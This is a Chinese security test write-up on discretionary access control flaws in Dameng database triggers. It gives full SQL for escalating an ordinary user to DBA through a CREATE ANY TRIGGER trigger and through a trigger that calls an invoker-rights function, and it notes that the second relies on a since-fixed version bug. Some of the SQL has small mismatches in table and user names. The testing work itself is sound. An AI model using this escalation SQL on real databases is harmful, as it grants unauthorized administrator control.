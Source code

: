 ### 触发器在自主访问控制中问题
- 自主访问控制在安全模型中的规定如下：
  - 主体必须拥有对客体的访问权限才能访问客体
  - 权限的授予和传播情况需要记录在系统中
  - 权限的传播范围：只限于该对象本身，不会影响其他对象的访问权限
​	针对触发器进行关于自主访问控制的测试的目的是：用户在触发器的使用过程中是否会直接或间接的获取到某些信息，或者使用其他用户的权限，从而间接的获取到自己未曾拥有的权限，乃至获取到DBA权限。
##### 1.1 只使用触发器
1.1.1  测试目的：测试触发器是否能够使得调用者获取到自己没有的权限
1.1.2  测试过程：
（1）  实验一
- 前提条件：用户user1拥有创建表、触发器的权限；用户user1创建表table1，并在表上创建触发器，授予用户user2插入该表的权限
- 测试步骤：
  1. user1创建以下类型的触发器：
     ```sql
     connect sysdba/SYSDBA;
     create user user1 identified by 123456789;
     grant create table, create trigger to user1;
     connect user1/123456789;
     create table table1(id int, name varchar(20));
     create or replace trigger insert_table1
     after insert on table1
     for each row
     begin
     		delete from table1 where id = 1;
     end;
     grant insert on table1 to user2;
     ```
​	2. user2插入数据到table1触发触发器
- 测试结果：查看user1用户下table1表的数据，id = 1的那一行数据已经被删除。
**总结**：在这个实验中，user2用户虽然没有table1表的删除权限，但是因为在插入数据时，触发了触发器insert_table1，而触发器在执行的时候采用的是所有者的权限，也就是user1用户的权限，user2用户通过触发器间接的使用了user1用户的权限，从而能删除表table1中的数据。
（2）实验二
- 前提条件：用户user1拥有创建表、触发器的权限；用户user1创建表table1、tabel2，并在表table1上创建触发器，授予用户user2插入表table1的权限。
- 测试步骤：
  1. user1创建以下类型的触发器：
     ```sql
     connect sysdba/SYSDBA;
     create user user1 identified by 123456789;
     grant create table, create trigger to user1;
     connect user1/123456789;
     create table table1(id int, name varchar(20), age int);
     create table table2(id int, name varchar(20), age int);
     create or replace trigger insert_table2
     after insert on table1
     for each row
     begin
     		insert into table2 values(new.id, new.name, new.age);
     end;
     grant insert on table1 to user2;
     ```
  2. user2插入数据(2, 'user2',12)到表table1，触发触发器insert_table2
- 测试结果：查看user1用户下table2表的数据，user2插入到table1的这行数据成功插入到table2中。
**总结**：在这个实验中，user2用户虽然没有table2表的插入权限，但是因为在插入数据时，触发了触发器insert_table2，而触发器在执行的时候采用的是所有者的权限，也就是user1用户的权限，user2用户通过触发器间接的使用了user1用户的权限，从而能插入数据到表table2中。
##### 1.2 Create any trigger权限
1.2.1 测试目的：通过给其他用户创建触发器，使得能够提权成功
1.2.2 测试过程：
- 前提条件：用户user1拥有创建表、Create any trigger权限，以及dba用户下一张表的插入权限
- 测试过程：
  1. user1用户在dba用户的表上创建触发器，并插入数据触发该触发器
     ```sql
     connect sysdba/SYSDBA;
     create table table1(id int, name varchar(20), age int);
     create user user1 identified by 123456789;
     grant create any trigger, insert on table1 to user1;
     connect user1/123456789;
     CREATE OR REPLACE TRIGGER GRANT_DBA
     BEFORE INSERT ON SYSDBA.T1
     FOR EACH ROW
     DECLARE PRAGMA AUTONOMOUS_TRANSACTION;
     BEGIN
     	EXECUTE IMMEDIATE 'GRANT DBA TO USER1';
     END;
     
     INSERT INTO SYSDBA.T1 VALUES (1, 'name');
     ```
- 测试结果：user1在插入数据之后，提权成为dba
**总结**：在这个实验中，user1用户通过给dba用户创建触发器，直接触发该触发器，将dba权限授予给自己，达到提取的目的。在达梦数据库中，用户给别的用户创建触发器之后，会将触发器的所有者转交给dba用户，那么上述的GRANT_DBA触发器是在SYSDBA模式下，而不是USER1模式，导致在之后的调用中都使用的SYSDBA用户的权限。
##### 1.3 触发器调用存储过程/函数
1.3.1 测试目的：触发器调用存储过程是否可以提权成功
1.3.2 测试过程：
- 前提条件：user1用户有创建触发器、存储过程的权限
- 测试步骤：
  1. user1用户创建触发器、存储过程，进行提取
     ```sql
     connect sysdba/SYSDBA;
     create user user1 identified by 123456789;
     grant create trigger, create procedure to user1;
     connect user1/123456789;
     create table t1(id int, age int);
     CREATE OR REPLACE FUNCTION GRANT_DBA_TO_USER1
     RETURN VARCHAR2
     AUTHID CURRENT_USER
     IS PRAGMA AUTONOMOUS_TRANSACTION;
     BEGIN
         EXECUTE IMMEDIATE 'GRANT DBA TO LXQ1';
         COMMIT;
         RETURN 'GRANTED';
     END;
     CREATE OR REPLACE TRIGGER GET_DBA_TRIGGER
     AFTER INSERT ON USER1.T1
     FOR EACH ROW
     DECLARE
         RESULT VARCHAR2(4000);
     BEGIN
     	CALL GRANT_DBA_TO_USER1();
     END;
     ```
  2. dba用户插入数据到user1用户的表T1中
     ```sql
     connect sysdba/SYSDBA;
     INSERT INTO USER1.T1 VALUES (1, 'dba');
     ```
- 测试结果：dba用户插入数据到user1.t1表之后，user1用户提权成为dba用户。
**总结**：在这个实验中，触发器使用的虽然是user1用户的权限，但是因为存储过程使用的是调用者的权限，即dba用户的权限，导致最后的权限提升。但其实是使用了达梦特定版本2022-09-29版本的一个漏洞，在触发器调用存储过程时，使用的是触发者的权限，而在之后的版本中已经将该问题进行修复，在触发器调用存储过程时，使用的仍然是触发器所有者的权限，所以在之后的版本中这个实验都无法成功。

关键词：用户, 触发器, 权限, 创建